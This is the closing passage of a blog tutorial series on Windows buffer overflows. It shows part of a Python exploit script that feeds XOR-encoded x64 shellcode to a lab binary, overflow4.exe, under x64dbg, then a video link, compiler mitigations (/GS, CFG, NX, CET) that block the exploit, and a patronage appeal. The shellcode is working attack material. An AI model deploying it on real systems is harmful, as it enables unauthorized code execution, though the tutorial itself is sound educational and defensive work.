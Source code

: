 ```python
payload += b"\x48\x31\xc9\x48\x8d\x35\xf9\xdd\xdd\xdd\x48\x81\xc6\x22\x22\x22\x22\x48\x89\xf3\x48\x8d\x36\xb1\xcf\xb0\xac\x30\x06\x48\xff\xc6\x48\xff\xc9\x75\xf6\xe4\x2f\x40\x84\xe4\x2f\x48\x5c\xe4\x9d\x65\xc9\xe4\x27\xed\xcc\xe4\x27\xec\xb4\xe4\x27\xdc\xbc\xe4\x27\x9a\xe4\x27\x9a\xe4\x27\xf2\x9c\xe5\x25\x74\x27\xf7\x90\xe0\xad\x6f\xe4\x9d\x65\xca\x2d\x6d\x53\x24\xe4\x6d\x45\xa4\x27\xb8\xa7\xe0\xad\x6e\xe8\x27\xfe\xb8\xe1\x9d\x77\xe8\x27\xf6\x8c\xe1\xad\x6f\xe0\x25\x7d\xe4\x14\xfb\xc5\xc2\xe9\xd4\xc9\xcf\x3c\xe4\x6d\x4c\xa4\xe4\x6d\x44\xa4\xfc\xe4\x25\x4c\xe4\x2f\x68\xa4\xcb\x4f\xbb\x9d\x77\xed\x27\xf0\x27\xa8\xe0\xad\x6f\xe4\x53\x65\xe0\x27\xa4\xe0\x95\xa7\xd8\xaf\xd9\x4a\x60\xfd\xed\xf3\xe0\x25\x55\xe1\x9d\x77\xe8\x27\xf6\x88\xe1\xad\x6f\xe4\x53\x6d\xca\xe9\x27\x80\xe7\xe1\x9d\x77\xe8\x27\xf6\xb0\xe1\xad\x6f\xef\x27\xe8\x07\xa8\xe0\xad\x6c\xfc\xed\xf3\xe4\x9d\x6c\xfc\xe4\x14\xcf\xcd\xc0\xcf\x82\xc9\xd4\xc9\xfc\xe4\x25\x4d\xe4\x9d\x7e\xe4\x53\x6e\xe4\x2f\x40\x9c\xed\x53\x7b"

#uncomment to allow debugging in x64dbg
input("attach 'overflow4.exe' to x64Dbg and press enter when you're ready to continue...")


# Send the payload
stdout, stderr = process.communicate(input=payload)

# Output the program's response
print(stdout.decode())
if stderr:
    print(stderr.decode())
```

***Wrapping everything together***
-

**I decided to take the time to make a video to walk you through the grand finale to our series 😺  Enjoy!**

<iframe width="977" height="519" src="https://www.youtube.com/embed/kBkzYa6icM8" title="The finale to our Buffer Overflow Series :)" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

***How to prevent Buffer Overflows from Succeeding***
-

**Compile your program as follows:**

**cl overflow4.cpp /Feoverflow_cfg.exe /GS /EHsc /guard:cf /link /NXCOMPAT /cetcompat**

<img width="941" height="434" alt="image" src="https://github.com/user-attachments/assets/b6a3e7ef-8212-4ded-ad5c-a7ad31e1b4e3" />

Then if I try to run my buffer overflow exploit, I receive an `int 29` error which equates to __fastfail(0x29) — a hard process termination, as well as the following:

<img width="585" height="46" alt="image" src="https://github.com/user-attachments/assets/2e4ab5e5-8a57-4602-84ef-90955c332abc" />

If you enjoyed this series and you're interested in going beyond just the content I share on my blog, please consider supporting me!  I offer extra perks to support your learning experience! ❤️  One of those perks being one on one Q/A sessions, helping you with your code as you're learning, video walkthroughs for all my posts, voting for what I post on my blog, future blog post teasers, just to name a few 😅
